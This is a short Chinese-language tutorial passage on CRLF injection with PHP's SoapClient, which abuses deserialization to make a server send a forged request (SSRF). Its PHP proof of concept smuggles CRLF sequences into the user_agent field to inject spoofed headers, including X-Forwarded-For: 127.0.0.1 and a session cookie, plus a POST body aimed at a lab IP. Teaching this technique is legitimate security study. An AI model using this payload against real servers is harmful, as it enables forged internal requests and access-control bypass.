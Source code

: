 请求的报文由请求头和body组成，请求头内部和body换行都是一个\r\n，也就是一个换行符(\n)一个回车符(\r)，而两者之间是用两组换行符和回车符隔开，即\r\n\r\n

这里就是用CRLF(回车+换行的简称)注入一些恶意代码行执行。

[这里可以看看wooyun的关于CRLF介绍](https://wooyun.js.org/drops/CRLF Injection漏洞的利用与实例分析.html)

那么下面我们就来尝试一下

测试代码：

```php
<?php
$target = 'http://192.168.27.173:2023/';
$post_data = 'data=ki10Moc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=8asIKRJGI2493324gfsjkk958'
);
$a = new SoapClient(null,array('location' => $target,'user_agent'=>'Happy^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'ki10Moc'));
$b = serialize($a);
$b = str_replace('^^',"\r\n",$b);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

<img src="图片\t012fd70f87d33fbd7b.png" alt="img" style="zoom:80%;" />
